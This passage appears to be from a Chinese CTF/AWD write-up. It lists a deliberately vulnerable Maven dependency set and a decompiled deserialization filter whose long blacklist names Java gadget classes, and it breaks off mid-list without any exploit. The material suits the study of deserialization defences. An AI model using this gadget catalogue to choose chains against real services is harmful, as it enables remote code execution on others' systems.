







这是一个含有非常多危险依赖的题，如下：
1 <dependencies>
2
3 <!-- AOP / Aspect -->
4 <dependency>
5 <groupId>org.glassfish.hk2.external</groupId>
6 <artifactId>aopalliance-repackaged</artifactId>
7 <version>2.6.1</version>
8 </dependency>
9
10 <dependency>
11 <groupId>org.aspectj</groupId>
12 <artifactId>aspectjweaver</artifactId>
13 <version>1.9.2</version>
14 </dependency>
15
16 <!-- Oracle Coherence -->
17 <dependency>
18 <groupId>com.oracle.coherence.ce</groupId>
19 <artifactId>coherence</artifactId>
20 <version>14.1.1-0-3</version>
21 </dependency>
22
23 <dependency>
24 <groupId>com.oracle.coherence.ce</groupId>
25 <artifactId>coherence-rest</artifactId>
26 <version>14.1.1-0-3</version>
27 </dependency>
28
29 <!-- Commons -->
30 <dependency>
31 <groupId>commons-beanutils</groupId>
32 <artifactId>commons-beanutils</artifactId>
33 <version>1.9.2</version>
34 </dependency>
35
36 <dependency>
37 <groupId>commons-collections</groupId>
38 <artifactId>commons-collections</artifactId>
39 <version>3.2.1</version>
40 </dependency>
41
42 <dependency>
43 <groupId>org.apache.commons</groupId>
44 <artifactId>commons-collections4</artifactId>
45 <version>4.0</version>
46 </dependency>
47
48 <dependency>
49 <groupId>commons-logging</groupId>
50 <artifactId>commons-logging</artifactId>
51 <version>1.2</version>
52 </dependency>
53
54 <!-- Groovy -->
55 <dependency>
56 <groupId>org.codehaus.groovy</groupId>
57 <artifactId>groovy</artifactId>
58 <version>2.3.9</version>
59 </dependency>
60
61 <!-- HK2 -->
62 <dependency>
63 <groupId>org.glassfish.hk2</groupId>
64 <artifactId>hk2-api</artifactId>
65 <version>2.6.1</version>
66 </dependency>
67
68 <dependency>
69 <groupId>org.glassfish.hk2</groupId>
70 <artifactId>hk2-locator</artifactId>
71 <version>2.6.1</version>
72 </dependency>
73
74 <dependency>
75 <groupId>org.glassfish.hk2</groupId>
76 <artifactId>hk2-utils</artifactId>
77 <version>2.6.1</version>
78 </dependency>
79
80 <!-- Jackson -->
81 <dependency>
82 <groupId>com.fasterxml.jackson.core</groupId>
83 <artifactId>jackson-annotations</artifactId>
84 <version>2.13.4</version>
85 </dependency>
86
87 <dependency>
88 <groupId>com.fasterxml.jackson.core</groupId>
89 <artifactId>jackson-core</artifactId>
90 <version>2.13.4</version>
91 </dependency>
92
93 <dependency>
94 <groupId>com.fasterxml.jackson.core</groupId>
95 <artifactId>jackson-databind</artifactId>
96 <version>2.13.4.2</version>
97 </dependency>
98
99 <dependency>
100 <groupId>com.fasterxml.jackson.datatype</groupId>
101 <artifactId>jackson-datatype-jdk8</artifactId>
102 <version>2.13.4</version>
103 </dependency>
104
105 <dependency>
106 <groupId>com.fasterxml.jackson.datatype</groupId>
107 <artifactId>jackson-datatype-jsr310</artifactId>
108 <version>2.13.4</version>
109 </dependency>
110
111 <dependency>
112 <groupId>com.fasterxml.jackson.jaxrs</groupId>
113 <artifactId>jackson-jaxrs-base</artifactId>
114 <version>2.13.4</version>
115 </dependency>
116
117 <dependency>
118 <groupId>com.fasterxml.jackson.jaxrs</groupId>
119 <artifactId>jackson-jaxrs-json-provider</artifactId>
120 <version>2.13.4</version>
121 </dependency>
122
123 <dependency>
124 <groupId>com.fasterxml.jackson.module</groupId>
125 <artifactId>jackson-module-jaxb-annotations</artifactId>
126 <version>2.13.4</version>
127 </dependency>
128
129 <dependency>
130 <groupId>com.fasterxml.jackson.module</groupId>
131 <artifactId>jackson-module-parameter-names</artifactId>
132 <version>2.13.4</version>
133 </dependency>
134
135 <!-- Jakarta -->
136 <dependency>
137 <groupId>jakarta.activation</groupId>
138 <artifactId>jakarta.activation-api</artifactId>
139 <version>1.2.2</version>
140 </dependency>
141
142 <dependency>
143 <groupId>jakarta.annotation</groupId>
144 <artifactId>jakarta.annotation-api</artifactId>
145 <version>1.3.5</version>
146 </dependency>
147
148 <dependency>
149 <groupId>jakarta.validation</groupId>
150 <artifactId>jakarta.validation-api</artifactId>
151 <version>2.0.2</version>
152 </dependency>
153
154 <dependency>
155 <groupId>jakarta.ws.rs</groupId>
156 <artifactId>jakarta.ws.rs-api</artifactId>
157 <version>2.1.6</version>
158 </dependency>
159
160 <dependency>
161 <groupId>jakarta.xml.bind</groupId>
162 <artifactId>jakarta.xml.bind-api</artifactId>
163 <version>2.3.3</version>
164 </dependency>
165
166 <!-- Javassist -->
167 <dependency>
168 <groupId>org.javassist</groupId>
169 <artifactId>javassist</artifactId>
170 <version>3.25.0-GA</version>
171 </dependency>
172
173 <!-- Jersey -->
174 <dependency>
175 <groupId>org.glassfish.jersey.core</groupId>
176 <artifactId>jersey-client</artifactId>
177 <version>2.35</version>
178 </dependency>
179
180 <dependency>
181 <groupId>org.glassfish.jersey.core</groupId>
182 <artifactId>jersey-common</artifactId>
183 <version>2.35</version>
184 </dependency>
185
186 <dependency>
187 <groupId>org.glassfish.jersey.containers</groupId>
188 <artifactId>jersey-container-jdk-http</artifactId>
189 <version>2.35</version>
190 </dependency>
191
192 <dependency>
193 <groupId>org.glassfish.jersey.containers</groupId>
194 <artifactId>jersey-container-servlet</artifactId>
195 <version>2.35</version>
196 </dependency>
197
198 <dependency>
199 <groupId>org.glassfish.jersey.containers</groupId>
200 <artifactId>jersey-container-servlet-core</artifactId>
201 <version>2.35</version>
202 </dependency>
203
204 <dependency>
205 <groupId>org.glassfish.jersey.ext</groupId>
206 <artifactId>jersey-entity-filtering</artifactId>
207 <version>2.35</version>
208 </dependency>
209
210 <dependency>
211 <groupId>org.glassfish.jersey.inject</groupId>
212 <artifactId>jersey-hk2</artifactId>
213 <version>2.35</version>
214 </dependency>
215
216 <dependency>
217 <groupId>org.glassfish.jersey.media</groupId>
218 <artifactId>jersey-media-json-jackson</artifactId>
219 <version>2.35</version>
220 </dependency>
221
222 <dependency>
223 <groupId>org.glassfish.jersey.media</groupId>
224 <artifactId>jersey-media-sse</artifactId>
225 <version>2.35</version>
226 </dependency>
227
228 <dependency>
229 <groupId>org.glassfish.jersey.core</groupId>
230 <artifactId>jersey-server</artifactId>
231 <version>2.35</version>
232 </dependency>
233
234 <!-- JTA -->
235 <dependency>
236 <groupId>javax.transaction</groupId>
237 <artifactId>jta</artifactId>
238 <version>1.1</version>
239 </dependency>
240
241 <!-- Logging -->
242 <dependency>
243 <groupId>org.slf4j</groupId>
244 <artifactId>jul-to-slf4j</artifactId>
245 <version>1.7.36</version>
246 </dependency>
247
248 <dependency>
249 <groupId>org.slf4j</groupId>
250 <artifactId>slf4j-api</artifactId>
251 <version>1.7.36</version>
252 </dependency>
253
254 <dependency>
255 <groupId>org.apache.logging.log4j</groupId>
256 <artifactId>log4j-api</artifactId>
257 <version>2.17.2</version>
258 </dependency>
259
260 <dependency>
261 <groupId>org.apache.logging.log4j</groupId>
262 <artifactId>log4j-to-slf4j</artifactId>
263 <version>2.17.2</version>
264 </dependency>
265
266 <dependency>
267 <groupId>ch.qos.logback</groupId>
268 <artifactId>logback-classic</artifactId>
269 <version>1.2.11</version>
270 </dependency>
271
272 <dependency>
273 <groupId>ch.qos.logback</groupId>
274 <artifactId>logback-core</artifactId>
275 <version>1.2.11</version>
276 </dependency>
277
278 <!-- OSGI -->
279 <dependency>
280 <groupId>org.glassfish.hk2</groupId>
281 <artifactId>osgi-resource-locator</artifactId>
282 <version>1.0.3</version>
283 </dependency>
284
285 <!-- SnakeYAML -->
286 <dependency>
287 <groupId>org.yaml</groupId>
288 <artifactId>snakeyaml</artifactId>
289 <version>1.29</version>
290 </dependency>
291
292 <!-- Spring Framework -->
293 <dependency>
294 <groupId>org.springframework</groupId>
295 <artifactId>spring-aop</artifactId>
296 <version>5.3.23</version>
297 </dependency>
298
299 <dependency>
300 <groupId>org.springframework</groupId>
301 <artifactId>spring-beans</artifactId>
302 <version>5.3.23</version>
303 </dependency>
304
305 <dependency>
306 <groupId>org.springframework</groupId>
307 <artifactId>spring-context</artifactId>
308 <version>5.3.23</version>
309 </dependency>
310
311 <dependency>
312 <groupId>org.springframework</groupId>
313 <artifactId>spring-core</artifactId>
314 <version>5.3.23</version>
315 </dependency>
316
317 <dependency>
318 <groupId>org.springframework</groupId>
319 <artifactId>spring-expression</artifactId>
320 <version>5.3.23</version>
321 </dependency>
322
323 <dependency>
324 <groupId>org.springframework</groupId>
325 <artifactId>spring-jcl</artifactId>
326 <version>5.3.23</version>
327 </dependency>
328
329 <dependency>
330 <groupId>org.springframework</groupId>
331 <artifactId>spring-web</artifactId>
332 <version>5.3.23</version>
333 </dependency>
334
335 <dependency>
336 <groupId>org.springframework</groupId>
337 <artifactId>spring-webmvc</artifactId>
338 <version>5.3.23</version>
339 </dependency>
340
341 <dependency>
342 <groupId>org.springframework</groupId>
343 <artifactId>spring-tx</artifactId>
344 <version>5.3.30</version>
345 </dependency>
346
347 <!-- Spring Boot -->
348 <dependency>
349 <groupId>org.springframework.boot</groupId>
350 <artifactId>spring-boot</artifactId>
351 <version>2.6.13</version>
352 </dependency>
353
354 <dependency>
355 <groupId>org.springframework.boot</groupId>
356 <artifactId>spring-boot-autoconfigure</artifactId>
357 <version>2.6.13</version>
358 </dependency>
359
360 <dependency>
361 <groupId>org.springframework.boot</groupId>
362 <artifactId>spring-boot-jarmode-layertools</artifactId>
363 <version>2.6.13</version>
364 </dependency>
365
366 <!-- Tomcat -->
367 <dependency>
368 <groupId>org.apache.tomcat.embed</groupId>
369 <artifactId>tomcat-embed-core</artifactId>
370 <version>9.0.68</version>
371 </dependency>
372
373 <dependency>
374 <groupId>org.apache.tomcat.embed</groupId>
375 <artifactId>tomcat-embed-el</artifactId>
376 <version>9.0.68</version>
377 </dependency>
378
379 <dependency>
380 <groupId>org.apache.tomcat.embed</groupId>
381 <artifactId>tomcat-embed-websocket</artifactId>
382 <version>9.0.68</version>
383 </dependency>
相对的waf也非常长，分别是在resolveClass中的Waf和在Rasp中的waf
1import java.io.IOException;
2import java.io.InputStream;
3import java.io.InvalidClassException;
4import java.io.ObjectInputStream;
5import java.io.ObjectStreamClass;
6
7/* loaded from: AwdBypass-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/org/awd/awdbypass/serialization/SecurityObjectInputStream.class */
8public class SecurityObjectInputStream extends ObjectInputStream {
9 public static String[] blacklist = {"br.com.anteros.dbcp.AnterosDBCPConfig", "br.com.anteros.dbcp.AnterosDBCPDataSource", "bsh.Interpreter", "bsh.XThis", "ch.qos.logback.core.db.DriverManagerConnectionSource", "ch.qos.logback.core.db.JNDIConnectionSource", "clojure.inspector.proxy$javax.swing.table.AbstractTableModel$ff19274a", "clojure.lang.PersistentArrayMap", "com.alibaba.fastjson.JSONArray", "com.alibaba.fastjson.TypeReference", "com.alibaba.fastjson2.JSONArray", "com.caucho.config.types.ResourceRef", "com.fasterxml.jackson.databind.node.POJONode", "com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig", "com.mchange.v2.c3p0.ComboPooledDataSource", "com.mchange.v2.c3p0.JndiRefForwardingDataSource", "com.mchange.v2.c3p0.PoolBackedDataSource", "com.mchange.v2.c3p0.debug.AfterCloseLoggingComboPooledDataSource", "com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase", "com.mysql.cj.jdbc.MysqlConnectionPoolDataSource", "com.mysql.cj.jdbc.MysqlXADataSource", "com.mysql.cj.jdbc.admin.MiniAdmin", "com.newrelic.agent.deps.ch.qos.logback.core.db.DriverManagerConnectionSource", "com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource", "com.nqadmin.rowset.JdbcRowSetImpl", "com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool", "com.p6spy.engine.spy.P6DataSource", "com.pastdev.httpcomponents.configuration.JndiConfiguration", "com.sun.deploy.security.ruleset.DRSHelper", "com.sun.jmx.interceptor.DefaultMBeanServerInterceptor", "com.sun.jmx.mbeanserver.JmxMBeanServer", "com.sun.jmx.mbeanserver.NamedObject", "com.sun.jmx.mbeanserver.Repository", "com.sun.org.apache.bcel.internal.util.ClassLoader", "com.sun.org.apache.xalan.internal.lib.sql.JNDIConnectionPool", "com.sun.org.apache.xalan.internal.xslt.ObjectFactory", "com.sun.org.apache.xalan.internal.xslt.Process", "com.sun.org.apache.xalan.internal.xsltc.DOM", "com.sun.org.apache.xalan.internal.xsltc.TransletException", "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl", "com.sun.org.apache.xml.internal.dtm.DTMAxisIterator", "com.sun.org.apache.xml.internal.serializer.SerializationHandler", "com.sun.rowset.JdbcRowSetImpl", "com.sun.syndication.feed.impl.ObjectBean", "com.vaadin.data.Property", "com.vaadin.data.util.NestedMethodProperty", "com.vaadin.data.util.PropertysetItem", "com.zaxxer.hikari.HikariConfig", "com.zaxxer.hikari.HikariDataSource", "flex.messaging.util.concurrent.AsynchBeansWorkManagerExecutor", "groovy.lang.Closure", "jodd.db.connection.DataSourceConnectionProvider", "net.sf.ehcache.hibernate.EhcacheJtaTransactionManagerLookup", "net.sf.ehcache.transaction.manager.DefaultTransactionManagerLookup", "net.sf.ehcache.transaction.manager.selector.GenericJndiSelector", "net.sf.ehcache.transaction.manager.selector.GlassfishSelector", "net.sf.json.JSONObject", "oadd.org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS", "oadd.org.apache.commons.dbcp.datasources.PerUserPoolDataSource", "oadd.org.apache.commons.dbcp.datasources.SharedPoolDataSource", "oadd.org.apache.xalan.lib.sql.JNDIConnectionPool", "om.mchange.v2.c3p0.WrapperConnectionPoolDataSource", "om.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl", "oracle.jdbc.connector.OracleManagedConnectionFactory", "oracle.jdbc.pool.OraclePooledConnection", "oracle.jdbc.rowset.OracleJDBCRowSet", "oracle.jms.AQjmsQueueConnectionFactory", "oracle.jms.AQjmsTopicConnectionFactory", "oracle.jms.AQjmsXAConnectionFactory", "oracle.jms.AQjmsXAQueueConnectionFactory", "oracle.jms.AQjmsXATopicConnectionFactory", "org..springframework.transaction.jta.JtaTransactionManager", "org.aoju.bus.proxy.provider.RmiProvider", "org.aoju.bus.proxy.provider.remoting.RmiProvider", "org.apache.activemq.ActiveMQConnectionFactory", "org.apache.activemq.ActiveMQXAConnectionFactory", "org.apache.activemq.jms.pool.JcaPooledConnectionFactory", "org.apache.activemq.jms.pool.XaPooledConnectionFactory", "org.apache.activemq.pool.JcaPooledConnectionFactory", "org.apache.activemq.pool.PooledConnectionFactory", "org.apache.activemq.pool.XaPooledConnectionFactory", "org.apache.activemq.spring.ActiveMQConnectionFactory", "org.apache.activemq.spring.ActiveMQXAConnectionFactory", "org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory", "org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory", "org.apache.axis2.jaxws.spi.handler.HandlerResolverImpl", "org.apache.axis2.transport.jms.JMSOutTransportInfo", "org.apache.bcel.internal.util.ClassLoader", "org.apache.catalina.authenticator.AuthenticatorBase", "org.apache.catalina.connector.Request", "org.apache.catalina.connector.RequestFacade", "org.apache.catalina.connector.Response", "org.apache.catalina.core.ApplicationFilterConfig", "org.apache.catalina.core.ApplicationServletRegistration", "org.apache.catalina.core.StandardContext", "org.apache.catalina.core.StandardService", "org.apache.catalina.core.StandardWrapperValue.invoke", "org.apache.catalina.deploy.FilterDef", "org.apache.catalina.deploy.FilterMap", "org.apache.catalina.loader.ParallelWebappClassLoader", "org.apache.catalina.loader.WebappClassLoaderBase", "org.apache.click.control.Column", "org.apache.click.control.Column$ColumnComparator", "org.apache.click.control.Table", "org.apache.commons.beanutils.BeanComparator", "org.apache.commons.codec.binary.Base64", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.comparators.TransformingComparator", "org.apache.commons.collections.functors.ChainedTransformer", "org.apache.commons.collections.functors.ConstantTransformer", "org.apache.commons.collections.functors.InstantiateTransformer", "org.apache.commons.collections.functors.InvokerTransformer", "org.apache.commons.collections.functors.MapTransformer", "org.apache.commons.collections.keyvalue.TiedMapEntry", "org.apache.commons.collections.map.LazyMap", "org.apache.commons.collections.map.TransformedMap", "org.apache.commons.collections4.Transformer", "org.apache.commons.collections4.comparators.TransformingComparator", "org.apache.commons.collections4.functors.ChainedTransformer", "org.apache.commons.collections4.functors.ConstantTransformer", "org.apache.commons.collections4.functors.InstantiateTransformer", "org.apache.commons.collections4.functors.InvokerTransformer", "org.apache.commons.collections4.functors.MapTransformer", "org.apache.commons.collections4.keyvalue.TiedMapEntry", "org.apache.commons.collections4.map.LazyMap", "org.apache.commons.collections4.map.TransformedMap", "org.apache.commons.configuration.JNDIConfiguration", "org.apache.commons.configuration2.JNDIConfiguration", "org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS", "org.apache.commons.dbcp.datasources.PerUserPoolDataSource", "org.apache.commons.dbcp.datasources.SharedPoolDataSource", "org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS", "org.apache.commons.dbcp2.datasources.PerUserPoolDataSource", "org.apache.commons.dbcp2.datasources.SharedPoolDataSource", "org.apache.commons.fileupload.disk.DiskFileItem", "org.apache.commons.io.FileUtils", "org.apache.commons.io.output.DeferredFileOutputStream", "org.apache.commons.io.output.ThresholdingOutputStream", "org.apache.commons.jelly.impl.Embedded", "org.apache.commons.proxy.provider.remoting.RmiProvider", "org.apache.coyote.AbstractProtocol;", "org.apache.coyote.ProtocolHandler", "org.apache.coyote.Request", "org.apache.coyote.Response", "org.apache.cxf.jaxrs.provider.XSLTJaxbProvider", "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig", "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory", "org.apache.ibatis.parsing.XPathParser", "org.apache.ignite.cache.jta.jndi.CacheJndiTmFactory", "org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup", "org.apache.log4j.receivers.db.DriverManagerConnectionSource", "org.apache.log4j.receivers.db.JNDIConnectionSource", "org.apache.myfaces.context.servlet.FacesContextImpl", "org.apache.myfaces.context.servlet.FacesContextImplBase", "org.apache.myfaces.el.CompositeELResolver", "org.apache.myfaces.el.unified.FacesELContext", "org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression", "org.apache.openjpa.ee.JNDIManagedRuntime", "org.apache.openjpa.ee.RegistryManagedRuntime", "org.apache.openjpa.ee.WASRegistryManagedRuntime", "org.apache.shiro.codec.Base64", "org.apache.shiro.codec.CodecSupport", "org.apache.shiro.crypto.AesCipherService", "org.apache.shiro.io.DefaultSerializer", "org.apache.shiro.jndi.JndiObjectFactory", "org.apache.shiro.realm.jndi.JndiRealmFactory", "org.apache.shiro.util.ByteSource", "org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS", "org.apache.tomcat.dbcp.dbcp.datasources.PerUserPoolDataSource", "org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource", "org.apache.tomcat.dbcp.dbcp2.BasicDataSourc", "org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS", "org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource", "org.apache.tomcat.dbcp.dbcp2.datasources.SharedPoolDataSource", "org.apache.tomcat.util.buf.ByteChunk", "org.apache.tomcat.util.descriptor.web.FilterDef", "org.apache.tomcat.util.descriptor.web.FilterMap", "org.apache.tomcat.util.modeler.BaseModelMBean", "org.apache.tomcat.util.modeler.Registry", "org.apache.wicket.util.file.Files", "org.apache.wicket.util.io.DeferredFileOutputStream", "org.apache.wicket.util.io.ThresholdingOutputStream", "org.apache.wicket.util.upload.DiskFileItem", "org.apache.xalan.lib.sql.JNDIConnectionPool", "org.apache.xalan.xslt.ObjectFactory", "org.apache.xalan.xslt.Process", "org.apache.xalan.xsltc.DOM", "org.apache.xalan.xsltc.TransletException", "org.apache.xalan.xsltc.runtime.AbstractTranslet", "org.apache.xalan.xsltc.trax.TemplatesImpl", "org.apache.xalan.xsltc.trax.TransformerFactoryImpl", "org.apache.xbean.propertyeditor.JndiConverter", "org.apache.xml.dtm.DTMAxisIterator", "org.apache.xml.serializer.SerializationHandler", "org.arrah.framework.rdbms.UpdatableJdbcRowsetImpl", "org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap", "org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.MethodClosure", "org.docx4j.org.apache.xalan.lib.sql.JNDIConnectionPool", "org.hibernate.EntityMode", "org.hibernate.engine.TypedValue", "org.hibernate.engine.spi.TypedValue", "org.hibernate.engine.spi.TypedValue$1", "org.hibernate.jmx.StatisticsService", "org.hibernate.property.BasicPropertyAccessor$BasicGetter", "org.hibernate.property.Getter", "org.hibernate.property.access.spi.Getter", "org.hibernate.property.access.spi.GetterMethodImpl", "org.hibernate.tuple.EntityModeToTuplizerMapping", "org.hibernate.tuple.component.AbstractComponentTuplizer", "org.hibernate.tuple.component.PojoComponentTuplizer", "org.hibernate.tuple.entity.EntityEntityModeToTuplizerMapping", "org.hibernate.type.AbstractType", 